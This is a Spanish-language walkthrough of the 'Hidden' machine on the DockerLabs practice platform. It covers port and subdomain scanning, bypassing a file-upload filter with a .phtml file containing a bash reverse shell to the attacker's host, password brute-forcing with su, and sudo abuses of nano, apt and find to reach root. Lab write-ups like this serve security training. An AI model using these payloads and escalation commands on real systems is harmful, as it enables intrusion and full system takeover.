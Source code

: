 Máquina "Hidden" de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio

![Hidden](/maquina-hidden/img/Dockerlabs.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sun Dec 15 01:33:23 2024 as: nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-15 01:33:24 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://hidden.lab/
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: localhost

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 01:33:32 2024 -- 1 IP address (1 host up) scanned in 8.59 seconds
```

vemos un solo puerto abierto:

• `Puerto 80: Apache httpd 2.4.52`

Si vemos en el escaneo, tenemos un dominio:

`"hidden.lab"`

por lo que lo añadiremos al `/etc/hosts` de la siguiente manera:

```css
echo "172.17.0.2	hidden.lab" >> /etc/hosts
```

Una vez entramos desde el navegador, no encontramos nada útil, pero teniendo en cuenta que hay un dominio, también puede tener un subdominio, por lo que usaremos `ffuf` para intentar fuzzear subdominios. Para hacerlo, debemos ejecutarlo de la siguiente manera:

```css
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://hidden.lab" -H "Host: FUZZ.hidden.lab" -fl 10
```

```ruby

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hidden.lab
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.hidden.lab
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 10
________________________________________________

dev                     [Status: 200, Size: 1653, Words: 550, Lines: 58, Duration: 2ms]
:: Progress: [114441/114441] :: Job [1/1] :: 11111 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Como vemos tenemos un subdominio, por lo que volveremos a editar el `/etc/hosts` pero borramos lo que hicimos antes y ponemos esto en la misma linea:

```css
172.17.0.2	hidden.lab dev.hidden.lab
```

Ahora si vamos desde la web, veremos el siguiente panel de subida de archivos:

![Subir_Archivos](/maquina-hidden/img/Panel.png)

# Intrusión

Si leemos bien, dice que no se permite la subida de php, pero podriamos intentar subir un phtml. Para esto, creamos un archivo llamado "shell.phtml" y ponemos el siguiente contenido:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

Luego, lo subimos en la web, escuchamos con netcat en el puerto 443 (`sudo nc -nlvp 443`) y luego vamos a `/uploads/shell.phtml`. Una vez hacemos todo eso, ya estaremos dentro de la maquina.

# Escalada de privilegios

### www-data

Siendo www-data, creamos un script en `/tmp` el cual dentro tenga copiado el siguiente script:

[Multi-su_force.sh](https://github.com/Maciferna/multi-Su_Force/blob/main/multi-su_force.sh)

Una vez lo tenemos, ejecutamos lo siguiente en nuestro host:

```css
sudo apt install xclip && cat /user/share/wordlist/rockyou.txt | head -n 500 | xclip -sel clip
```

esto lo que hará, sera instalar `xclip` si no lo tenemos, y luego copiar las primeras 500 lineas del rockyou (esa ruta es para kali linux, se debe cambiar en caso que no esté ahi), luego volvemos a la maquina y creamos la wordlist con las contraseñas. Una vez ejecutado el script, veremos lo siguiente:

![Cafetero-pass](/maquina-hidden/img/cafetero.png)

(si no funciona, se debe cambiar la linea del script que dice `if timeout 0.073` por `if timeout 0.1`)

Teniendo la contraseña, escalamos a el usuario "cafetero" con `su cafetero`.

### Cafetero

Si ejecutamos `sudo -l` veremos que podemos ejecutar `nano` como el usuario "john", por lo que vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo) para poder escalar al usuario john.

### John

Nuevamente, si ejecutamos `sudo -l` veremos que podemos ejecutar `apt` como el usuario "bobby", y para escalar debemos ejecutar lo siguiente:

```css
sudo -u bobby apt changelog apt
```

y luego de ejecutarlo escribir lo siguiente y darle al enter:

```css
!/bin/bash
```

### Bobby

Siendo bobby, podremos ejecutar el binario `find` como root, y para escalar debemos ejecutar lo siguiente:

```css
sudo find . -exec /bin/bash \; -quit
```

## Root

![Root](/maquina-hidden/img/root.png)



Gracias por leer :)